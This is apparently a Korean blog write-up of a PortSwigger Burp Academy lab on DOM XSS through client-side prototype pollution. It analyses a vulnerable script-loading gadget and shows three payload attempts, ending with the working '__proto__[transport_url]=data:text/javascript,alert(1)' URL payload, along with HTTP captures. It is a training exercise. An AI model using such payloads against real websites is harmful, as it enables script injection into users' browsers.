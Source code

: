 ```yaml
---
layout: post
title: "Burp Academy 문제풀이 - DOM XSS via client-side prototype pollution"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, Prototype Pollution]
toc: true
---
```


# 개요
- 프로토타입 폴루션(Prototype Pollution, 프로토타입 오염) 취약점에 대한 문제이다. 
- 문제 주소: https://portswigger.net/web-security/prototype-pollution/finding/lab-prototype-pollution-dom-xss-via-client-side-prototype-pollution
- 프로토타입 폴루션 설명 주소: https://portswigger.net/web-security/prototype-pollutionwhat-is-prototype-pollution
- 난이도: PRACTITIONER (중간)


# 문제 분석

```
This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

1. Find a source that you can use to add arbitrary properties to the global Object.prototype.
2. Identify a gadget property that allows you to execute arbitrary JavaScript.
3. Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you.
```

- 프로토타입 폴루션이 가능한 곳을 찾는다. 
- 페이로드를 만들어서 자바스크립트 alert 함수가 실행되도록 만든다. 
- 브라우저를 통해서 풀어도되고  `Dom Invader` 를 사용하면 더 쉬울 수도 있다. 




# 풀이
## 프로토타입 폴루션 취약점이 있는 곳 찾기

![상품 검색](/images/burp-academy-prototype-pollution-1-2.png)

- 검색어를 입력하고 "Search" 버튼을 클릭하면 GET 요청이 발생하고 URL로 파라메터가 전달된다. 

```
GET /?search=aaaa HTTP/1.1
Host: 0a5300b3032c5f25c2643a44000000f1.web-security-academy.net
Cookie: session=BRR4p1oZFSX1e1MEJ8r7OkjZb4KVjCFB
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close

```

그리고 다음과 같이 평범해보이는 200 응답이 회신된다. 
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 3209

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labsBlog.css rel=stylesheet>
        <title>DOM XSS via client-side prototype pollution</title>
    </head>
    <body>
(이하생략)
```

이 요청과 응답만 보면 어디에 취약점이 있는지 잘 모르겠다. 클라이언트 측의 취약점이므로 자바스크립트 파일을 살펴보는게 좋겠다. 이 페이지를 크롬 디버거로 살펴보자. 페이지의  `searchLogger.js` 파일을 보면 다음 자바스크립트가 실행되도록 되어 있다. 페이지의 `load` 이벤트에 반응하도록 되어 있어 페이지 로드가 완료되면 `searchLogger` 함수가 이어서 실행된다. 코드를 조금 분석해본다. 

- `searchLogger` 함수에서는 `deparam.js` 에 정의되어 있는 deparam 오브젝트를 생성하고 `config` 라는 변수에 저장해둔다. 
- `config` 변수에 `transport_url` 라는 속성(property)이 있다면 동적으로 script 태그를 만들고 이 태그의 `src` 속성을 `transport_url` 의 값으로 설정한다. 
- 아마도 `transport_url` 을 XSS가 가능한 페이로드로 지정하면 문제가 풀리지 않을까 생각된다. 

```javascript 
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    let config = {params: deparam(new URL(location).searchParams.toString())};

    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }

    if(config.params && config.params.search) {
        await logQuery('/logger', config.params);
    }
}

window.addEventListener("load", searchLogger);
```
그리고 `deparam.js` 의 코드는 대략 다음과 같다. 실제로 프로토타입 폴루션 취약점이 있는 부분이 코드 같다. URL에 지정된 파라메터의 값을 자바스크립트의 오브젝트에 무조건적으로 설정해주는 부분같다. (`__proto__` 와 같은 위험한 key가 사용되고 있는지를 체크해주는 부분이 없다.)

![deparam.js](/images/burp-academy-prototype-pollution-1-1.png)


## 1차 시도
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 를 보면, `<script src="javascript:alert(1)">` 페이로드가 있다. 이 것을 사용해보자. 

페이로드를 조금 수정해서 다음과 같이 만들었다.  

```
?search=eeess&__proto__[transport_url]=javascript:alert(1)
```

이 페이로드가 실행되면 script.src 의 값이 `alert(1)` 로 지정될 것이다. 그리고 alert창이 나타날 것으로 생각된다. 테스트해보았다. 

결과는 실패. alert 창이 나타나지 않았다. 흠...

크롬 디버거로 브레이크포인트를 찍어서 값을 확인해본다. transport_url에 값이 잘 들어간 것을 확인했다. 이 것으로 일단 프로토타입 폴루션자체는 성공한 것을 알 수 있다. __proto__ 키를 이용해서 오브젝트의 특정 키에 값을 주입하는 것 자체는 성공했다. 

![프로톹타입 폴루션 확인](/images/burp-academy-prototype-pollution-1-3.png)

그런데 최종결과를 보면 다음과 같은 에러를 확인할 수 있었다. 

![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-4.png)

## 2차 시도 
페이로드에서 `javscript` 를 없애고 다음과 같이 만들었다. 

```
?search=eeess&__proto__[transport_url]=alert(1)
``` 

실행해보니 이번에는 404 응답 에러가 발생했다. 

그리고 이 떄 Burp Proxy 이력을 보니 다음과 같은 통신이 발생한 것을 확인했다. 

```
GET /alert(1) HTTP/1.1
Host: 0a1800e104c74374c2bf71be00a4002b.web-security-academy.net
Cookie: session=9YMbSxCjJHulZ7ZPfUBnGvoiWivMSkpj
Sec-Ch-Ua: "Not_A Brand";v="99", "Google Chrome";v="109", "Chromium";v="109"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a1800e104c74374c2bf71be00a4002b.web-security-academy.net/?search=eeess&__proto__[transport_url]=alert(1)
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Connection: close
```

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 11

"Not Found"
```

`<script src="alert(1)">` 이 삽입되니, `GET /alert(1)` 요청이 실행된 것이다. src에 바로 alert 코드를 쓰는 것은 답이 아닌 것 같다. 다른 페이로드를 찾아본다. 

## 3차 시도 
[XXS 페이로드 리스트](https://github.com/payloadbox/xss-payload-list){:target="_blank"} 에서 `<script src="data:text/javascript,alert(1)"></script>` 페이로드를 발견했다. 왠지 이 것을 쓰면 HTTP 통신이 발생하지 않고 script가 실행될 것 같은 예감이 든다. 다음 페이로드로 테스트해본다. 

```
?search=eeess&__proto__[transport_url]=data:text/javascript,alert(1)
```

삽입된 페이로드를 브레이크 포인트로 확인해본다. transport_url 속성에 `data:text/javascript,alert(1)` 이 삽입된 것을 확인했다. 브레이크 포인트를 중지하고 계속 진행시킨다. 

![삽입된 페이로드 확인](/images/burp-academy-prototype-pollution-1-5.png)

자바스크립트 실행에 성공했다! 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-6.png)

OK버튼을 누르면 축하한다는 메세지가 나온다. 
![UNKNOWN_URL_SCHEME 에러](/images/burp-academy-prototype-pollution-1-7.png)